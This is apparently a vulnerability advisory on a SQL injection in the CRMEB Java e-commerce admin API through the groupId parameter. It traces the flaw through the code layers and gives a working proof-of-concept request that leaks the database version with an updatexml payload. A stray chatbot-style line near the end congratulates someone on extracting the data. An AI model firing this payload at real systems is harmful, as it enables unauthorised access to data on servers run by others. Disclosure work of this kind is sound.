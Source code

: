 Xi'an Zhongbang Network Technology Co., Ltd.'s CRMEB Java e-commerce system  is vulnerable to SQL injection. 



Attackers can exploit this vulnerability to execute unauthorized SQL commands.

Affected Company: Xi'an Zhongbang Network Technology Co., Ltd.

Affected Version: CRMEB < v1.3.4

Project Repository:

https://gitee.com/ZhongBangKeJi/crmeb_java

Stars: 6.4k

Code Audit Analysis Process:

crmeb_java-master\crmeb\crmeb-service\src\main\resources\mapper\user\UserMapper.xml

A global search reveals that the groupId parameter is not precompiled, leading to a SQL injection vulnerability.

![img](https://github.com/JiangXiaoBaiJia/cve2/blob/main/a.png)

To trace back who is making the call to the DAO layer that receives the  map collection, you need to look up and identify the caller in the  codebase.

![img](https://github.com/JiangXiaoBaiJia/cve2/blob/main/b.png)

crmeb_java-master\crmeb\crmeb-service\src\main\java\com\zbkj\service\service\impl\UserServiceImpl.java

In the service layer, there is no filtering or restriction applied to the data.

In the UserServiceImpl, the if statement 

!StringUtils.isBlank(request.getGroupId()) checks for emptiness, assigns a value if not empty, but imposes no restrictions.

![img](https://github.com/JiangXiaoBaiJia/cve2/blob/main/c.png)

The following code calls the DAO layer and passes a map collection.

![img](https://github.com/JiangXiaoBaiJia/cve2/blob/main/d.png)

When tracing back, looking up to the controller layer,

crmeb_java-master\crmeb\crmeb-admin\src\main\java\com\zbkj\admin\controller\UserController.java

the UserController calls the service layer with the received data, without applying any restrictions or filtering.

![img](https://github.com/JiangXiaoBaiJia/cve2/blob/main/e.png)

 

## Vulnerability Reproduction

Viewing database version information through error-based injection.

Poc：

/api/admin/user/list?labelId=&userType=&sex=&isPromoter=&country=&payCount=&accessType=0&dateLimit=&keywords=&province=&city=&page=1&limit=15&level=&groupId=1)+and+updatexml(1,concat(0x7e,(select+@@version),0x7e),1)--+&temp=1708587324

```
GET /api/admin/user/list?labelId=&userType=&sex=&isPromoter=&country=&payCount=&accessType=0&dateLimit=&keywords=&province=&city=&page=1&limit=15&level=&groupId=1)+and+updatexml(1,concat(0x7e,(select+@@version),0x7e),1)--+&temp=1708587324 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authori-zation: 6ae40cb967b5480c805cc930df3d9650
Origin: http://localhost:9527
Connection: close
Referer: http://localhost:9527/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

```



 

Great! You have successfully obtained the database version as 5.7.26. If you  need any further assistance or have any more questions, feel free to  ask!

![img](https://github.com/JiangXiaoBaiJia/cve2/blob/main/f.png)

 